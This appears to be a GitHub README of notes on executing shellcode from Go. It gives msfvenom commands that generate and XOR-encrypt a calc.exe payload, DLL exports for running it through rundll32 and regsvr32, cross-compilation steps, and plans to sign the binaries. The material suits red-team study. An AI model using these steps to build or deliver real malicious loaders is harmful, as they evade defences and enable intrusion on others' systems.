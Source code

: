 ## Shellcode Execution with GoLang
This is a rip off of [blackhillsinfosec.com/webcast-shellcode-execution-with-golang](https://www.blackhillsinfosec.com/webcast-shellcode-execution-with-golang/) with some anotations made by me regarding payload creation and env setup / cross compilation.

## generate shellcode
`c#` formatted shellcode can be used with minimal adjustments in go
```
msfvenom -p windows/x64/exec CMD=calc.exe -f csharp
```

Create xored payload with `msfvenom`, other algorithms can be used. See list of algorithms supported by `msfvenom` with `msfvenom --list encrypt` 
```
msfvenom -p windows/x64/exec CMD=calc.exe -f csharp --encrypt xor --encrypt-key "\x31"
```
If you don't escape hex bytes like shown, the encrypt-key is interpreted as 

## DLL creation
- include an Exported function (start function name with capital letter) and a comment above it that includes the export keyword and the function name
```go
import "C"

//export Engage
func Engage() {
	testDLLExportedFunction()
}
```

## regsvr32 dll
A Dll created for use with regsvr32 needs to implement specific methods. This can be done through defining the following 4 exports:
- EntryPoint()
- DllRegisterServer()
- DllUnregisterServer()
- DllInstall()
	
All four need to return boolean (True for success). The payload call can be put in either of the four.

## compile
Download the project and load dependencies. This can be done through `go mod`
```
go mod init && go mod tidy
```
Once compiled the code from **method1** can be run with the exported function `Engage`
```
rundll32.exe go.dll, Engage
```


### compile on windows
This needs golang obviously but also mingw for DLL creation.

Easiest way of setting everything up is by isntalling it through `chocolatey`. This also adds necessary environment variables.

Run 
```
choco install -y vscode golang mingw
```

Building the Dll can then be done with
```
go build -buildmode=c-shared -o go.dll main.go
```

### cross compile DLL on linux
Cross compilation on Linux is possible but needs some further setup. I have collected some pointers towards setup here, but this needs additional refinement.

Based on this stackoverflow post (https://stackoverflow.com/questions/49078510/trouble-compiling-windows-dll-using-golang-1-10), the following is necessary:

Install `mingw` for cross compilation

```
sudo apt install gcc-mingw-w64-i686 gcc-mingw-w64-x86-64 
```
Compile x86 / 32 bit version for Windows on Ubuntu: 
```
env GOOS=windows GOARCH=386 CGO_ENABLED=1 CC=i686-w64-mingw32-gcc go build -buildmode=c-shared -o main.dll main.go 
```
or x86-64 / **64 bit version**
```
env GOOS=windows GOARCH=amd64 CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc go build -buildmode=c-shared -o main.dll main.go 
```


## TODO
- check out calling shellcode by casting alloc mem to function pointer (https://stackoverflow.com/questions/3601796/can-we-have-function-pointers-in-go)
- look into code signing with SignTool.exe replacements on linux like [signcode](https://linux.die.net/man/1/signcode) and [osslsigncode](https://stackoverflow.com/questions/18287960/signing-windows-application-on-linux-based-distros)
- look into tool to add manifest from linux

## links 
https://github.com/yoda66/GoShellcode


